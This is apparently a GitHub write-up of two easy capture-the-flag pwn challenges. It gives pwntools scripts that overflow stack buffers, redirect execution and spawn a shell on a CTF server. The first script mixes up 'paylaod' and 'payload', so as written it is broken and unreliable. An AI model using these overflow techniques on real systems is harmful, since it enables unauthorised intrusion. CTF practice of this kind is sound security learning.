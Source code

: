 # Exploitation Challenges `Pwn`
## First Chall `Very Easy`
<img src="https://github.com/q5fj/Pwn/assets/88992167/1a26af55-38e2-4713-aca0-0cd186e952bb">

#### Check The Code `crashme.c`
<img src="https://github.com/q5fj/Pwn/assets/88992167/a6ba6a46-d7f9-4c70-9b83-f81922fc71b5">

#### Check The Program `file crashme`
<img src="https://github.com/q5fj/Pwn/assets/88992167/1f235cef-32cc-4ee3-b9ba-332e334f1fe6">

#### Check teh security of the Program `checksec crashme`
<img src="https://github.com/q5fj/Pwn/assets/88992167/83acfc89-a331-4fdb-960e-1f8598ae6eae">

#### Run The Program `./crashme`
<img src="https://github.com/q5fj/Pwn/assets/88992167/53813e8d-caaa-430d-8e22-7ab453aab13c">

#### Verify The Program Using `gdb ./crashme`
<img src="https://github.com/q5fj/Pwn/assets/88992167/b1114234-bbaa-4449-acaf-34ede9bb8180">

#### Using `disassemble main`
<img src="https://github.com/q5fj/Pwn/assets/88992167/aa7e2a29-c29e-4b3f-b22a-bf7c64a7202f">

#### Create Exploitation Program `PwnTools`
```
import shutup; shutup.please()
from pwn import *

elf = context.binary = ELF('./crashme')
io = elf.process()

context.log_level = 'debug'

io = remote('0.cloud.chals.io', 17289)

offset = ? 
```
#### We Need Offset `Using gdb`
```
gef➤  pattern create 100
gef➤  r
gef➤  pattern offset faaaaaaagaaaaaaahaaaaaa
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/670dcd3d-2558-4d74-9b28-fdb2cc430669">
<img src="https://github.com/q5fj/Pwn/assets/88992167/34e6eede-609e-48f3-a13f-863309e2a634">

#### We Complete The Exploitation Program
```
import shutup; shutup.please()
from pwn import *

elf = context.binary = ELF('./crashme')
io = elf.process()

context.log_level = 'debug'

io = remote('0.cloud.chals.io', 17289)

offset = 40

paylaod = b''
paylaod += b'A' * offset
payload += p64(0x400676) #Address Function main

io.sendlineafter(b':',paylaod)
io.sendline(b'flag')
io.interactive()
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/3abc20e4-1997-4a10-a2fb-03a87bcde462">




## The Second Chall `Easy` XD
<img src="https://github.com/q5fj/Pwn/assets/88992167/3d7cf3fc-5b94-4b7f-89a8-f68d00d31dbc">

#### Using The `Ghidra` Tool,
#### We Find That The `main` Funcition Calls The `do_input` Function
<img src="https://github.com/q5fj/Pwn/assets/88992167/d1baf018-10bc-49b3-9b4d-c43856a1009c">
<img src="https://github.com/q5fj/Pwn/assets/88992167/42c6ea4d-b197-48e2-8fff-b9e8d5971dba">

#### Check The Program `file medbof`
<img src="https://github.com/q5fj/Pwn/assets/88992167/9ede44ab-2423-48ca-bc8e-2e4139d7021b">

#### Check teh security of the Program `checksec medbof`
<img src="https://github.com/q5fj/Pwn/assets/88992167/24a1caf7-c570-4bbe-96ad-9c928bf91375">

#### Run The Program `./medbof`
<img src="https://github.com/q5fj/Pwn/assets/88992167/d7d6ce96-ebf1-49c1-917a-d6ae1fcf1ac5">

#### Verify The Program Using `gdb ./medbof`
<img src="https://github.com/q5fj/Pwn/assets/88992167/91d4adeb-c9b1-43e0-883c-590b6da00a7d">

#### The Vulnerability exists in `do_input` and `do_system` with `bin/sh` :)
<img src="https://github.com/q5fj/Pwn/assets/88992167/41877e76-c681-4d0d-8cf4-9f1b10ba5d36">

#### Extract The Offset 
```
gef➤  pattern create 100
gef➤  r
gef➤  pattern offset faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaala
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/89e6d54d-1775-41bc-8baf-9d2d7b792883">

#### Create Exploitation Program `PwnTools`
```
import shutup; shutup.please()
from pwn import * 

elf = context.binary = ELF('./medbof')
io = elf.process()
#libc = elf.libc

io = remote('0.cloud.chals.io', 27380)

context.log_level = 'debug'

offset = 40

payload = b''
payload += b'A' * offset
payload += p64(0x400657) + p64(0x400646) #Addres do_input + Adders do_system

#io.recvline()
io.sendlineafter(b'time',payload)
io.interactive()
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/739f5684-3ffb-498f-a3b0-4bcf0c5141b0">
























